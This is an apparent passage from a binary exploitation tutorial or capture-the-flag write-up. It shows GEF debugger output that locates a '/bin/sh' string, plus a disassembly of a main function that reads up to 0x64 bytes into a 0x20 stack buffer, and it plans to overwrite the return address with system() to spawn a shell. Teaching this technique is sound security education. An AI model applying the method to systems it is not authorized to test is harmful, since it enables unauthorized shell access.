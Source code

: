 ```sh
      0x7ffff7def000     0x7ffff7e14000    0x25000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7e14000     0x7ffff7f5f000   0x14b000    0x25000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7f5f000     0x7ffff7fa9000    0x4a000   0x170000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fa9000     0x7ffff7faa000     0x1000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7faa000     0x7ffff7fad000     0x3000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fad000     0x7ffff7fb0000     0x3000   0x1bd000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fb0000     0x7ffff7fb6000     0x6000        0x0
      0x7ffff7fcc000     0x7ffff7fd0000     0x4000        0x0 [vvar]
      0x7ffff7fd0000     0x7ffff7fd2000     0x2000        0x0 [vdso]
      0x7ffff7fd2000     0x7ffff7fd3000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7fd3000     0x7ffff7ff3000    0x20000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ff3000     0x7ffff7ffb000     0x8000    0x21000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2a000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
gef➤  find 0x555555554000,0x555555559000,"/bin/sh"
0x555555556004
warning: Unable to access 12284 bytes of target memory at 0x555555556005, halting search.
1 pattern found.
gef➤  x/s 0x555555556004
0x555555556004: "/bin/sh"
```

The address of the "/bin/sh" string in the binary is `0x555555556004`. All we have to do now is to figure out the address of `system()`. Once we do that, we can overwrite the return address with the address of `system()` to execute it.

```sh
gef➤  disas main
Dump of assembler code for function main:
   0x0000555555555145 <+0>:     push   rbp
   0x0000555555555146 <+1>:     mov    rbp,rsp
=> 0x0000555555555149 <+4>:     sub    rsp,0x20
   0x000055555555514d <+8>:     lea    rdi,[rip+0xeb8]        # 0x55555555600c
   0x0000555555555154 <+15>:    call   0x555555555030 <system@plt>
   0x0000555555555159 <+20>:    mov    rdx,QWORD PTR [rip+0x2ee0]        # 0x555555558040 <stdin@@GLIBC_2.2.5>
   0x0000555555555160 <+27>:    lea    rax,[rbp-0x20]
   0x0000555555555164 <+31>:    mov    esi,0x64
   0x0000555555555169 <+36>:    mov    rdi,rax
   0x000055555555516c <+39>:    call   0x555555555040 <fgets@plt>
   0x0000555555555171 <+44>:    mov    eax,0x0
   0x0000555555555176 <+49>:    leave
   0x0000555555555177 <+50>:    ret
End of assembler dump.
gef➤
```
